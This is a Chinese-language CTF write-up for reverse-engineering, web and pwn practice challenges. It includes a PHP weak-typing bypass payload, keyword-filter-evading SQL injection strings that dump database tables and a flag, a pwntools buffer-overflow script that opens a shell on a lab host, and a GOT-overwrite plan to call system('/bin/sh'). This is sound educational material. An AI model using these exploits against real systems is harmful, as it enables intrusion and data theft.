

# Reverse

## Try 

丢进ida，直接看到flag


## Snake

丢进ollydbg，找到如图


将撞墙后的retn改为jmp 003217F0后运行即可得flag


## Re Again

这题用ida生成的伪代码似乎有问题(?)，由第一个do-while循环确定flag是24位的，其中由flag格式已知首尾是flag{...}。然后查了TryLevel发现是**结构化异常处理 SEH**相关的东西，然而还是看不懂，于是只能把伪码作为参考去啃汇编**（图附注释）**。

main:


第二个函数（第一个函数类似）：


大致看懂后丢进ollydbg用flag{123456789012345678}单步执行。由第二个函数的伪代码的函数声明和od跑一遍的逻辑，发现第一个函数似乎没用(?)，不影响eax的值，于是看第二个函数。


由于输入的flag前五位是正确的，所以会在里面循环五次后才跳出sorry，由此了解逻辑：第一个byte ptr取出的是字符"1"或"2"，第二个byte ptr依次取出flag的每一位字符，运算后与应得的值进行比较，正确则验证下一位，反向进行异或计算即可获得flag。

做题时没想到可以直接拿到第二个断点处的数组(手动捂脸)，只能一位一位算，即用fla...算出后一位'g'，再用flag...重新运行算出'{' ……，逐位获得flag，python代码如下。

```Python
last = 0x72 # 第二个端点处取得的字符再颠倒
one = 0x31	# 字符"1"
two = 0x32	# 字符"2"
flag = last ^ 0x7 ^ one	# 用1或2 取决于第一个断点处所得值
print (flag)
```

---

# Web

## UnSafe PHP

> 传闻PHP是世界上最好的语言，但方便的同时也带来了隐患，‘弱类型’就可能引发很多问题。

考查php弱类型，根据提交的json在最下面显示输出，代码如下，注释里写过程。

```php
<?php 
error_reporting(0); 
highlight_file(__FILE__); 
include "flag.php"; 

$v1=0;$v2=0; 

$a=(array)json_decode(@$_GET['answer']); 
# 提交index.php?answer={}
if(is_array($a)){ 
# 读取$a时已转换成array，应该能通过

    is_numeric(@$a["para1"])?die("nope1"):NULL; 
    if(@$a["para1"]){ 
        ($a["para1"]>2016)?$v1=1:NULL; 
    } 
	# $a["para1]既不是数又要大于2016
	# 由php手册 http://php.net/manual/zh/language.operators.comparison.php
	# 字符串和数值时比较会转换成数值，故应为含数值的字符串 

    if(is_array(@$a["para2"])){ 
        if(count($a["para2"])!==5 OR !is_array($a["para2"][0])) die("nope2"); 
		# a["para2"]为含5个元素的数组，且第一个元素为数组

        $pos = array_search("balabala", $a["para2"]); 
        $pos===false?die("nope3"):NULL; 
        foreach($a["para2"] as $key=>$val){ 
            $val==="balabala"?die("nope4"):NULL; 
        } 
		# a["para2"]中既要有balabala，又不能有balabala
		# 根据php手册 http://php.net/manual/zh/function.array-search.php
		# array_search()中字符串和数值比较同样有类型问题
		# 即 "balabala"转化成数值应为0，故需有元素为0

        $v2=1; 
    } 
} 

if($v1 && $v2){ 

    echo $flag; 
} 

?> 
```

最终payload：/index.php?answer={"para1":"2017 ","para2":[[2],3,3,3,0]}

## SQLinjection

> Hint2:测试的时候记得把'#'url编码

在login，register，index中找到注入点在/index.php?id=1处，id=1-4组合起来是"hey there flag is in the database"。先用sqlmap跑了一遍，无果_(:з」∠)_，转而投奔手注。

测试发现union,select,from,and,or,&均被过滤(降低难度后union被放出)，用selselectect,frfromom，||解决。测试1' || 1=1 #时报错，根据hint2将#改为%23后可通过。

查阅网上wp后尝试表名列名均为flag，用id=-1' union selselect flag frfromom flag%23竟然过了，~~好像大家都是这么做出来的。（雾~~

拿到flag后正经盲注，information里or用oorr绕过。

```mysql
# 表名:flag,id,user
id=-1' union selselectect group_concat(table_name) frfromom infoorrmation_schema.tables where table_schema=database()

# 列名:flag
id=-1' union selselectect group_concat(column_name) frfromom infoorrmation_schema.columns where table_name = 'flag'%23

# flag
id=-1' union selselectect flag frfromom flag%23
```

---

# Pwn

## GetShell


看到pwn函数调用了system("bin/sh")，应该要跳转到这个地址。main里调用了gets()，故用v4覆写掉return的地址。

python脚本如下

```python
from pwn import *
p = remote("10.105.40.215",4445)
print p.recvuntil("name")
payload = "a" * (0xa + 0x8) + p64(0x4006d6) # 程序为64位
p.sendline(payload)
p.interactive()
```

## Array

> Hint1:数组边界溢出
>
> Hint2:改写GOT表

~~由上题权限漏洞可知此题flag（雾~~


根据hint1，发现name和数组a地址都在bss段。


根据hint2，查看got表地址，计算可得各函数的地址，如puts为a[-17]，printf为a[-18]。



由第一题(Getshell)，猜测此题也是通过调用system("bin/sh")来拿到flag，将name设为“/bin/sh”，system地址覆写puts地址，即可在调用puts(name)时调用system("bin/sh")。

然而got表没有system，经查阅得知函数地址是动态链接的，需通过已链接函数地址计算system地址，算式为system-libc_system=printf-libc_printf（用其他已调用函数也可行）。

libc中函数地址可将libc.so.6丢进ida查看，后来得知也能通过gdb直接查找（下图）。printf函数因为在之前已经被调用过所以a[-18]显示的是链接后的地址，故本题有两次读写操作。


同时，因为格式化字符串的%d，所以地址要用十进制进行操作。

故解题过程为：

1. 将/bin/sh写入name
2. 读取a[-18]，即已知的printf动态地址。
3. 由system=printf-libc_printf+libc_system计算出system的动态地址
4. 将十进制的地址写入a[-17]，即要调用的puts()函数的地址
5. 调用puts(name)时，实际调用system("/bin/sh")，getshell。


P.S. 题目附带的libc文件是服务器的libc库，本地测试时调用的是本地的库，本地libc库位置可通过gdb中查看，如下图。

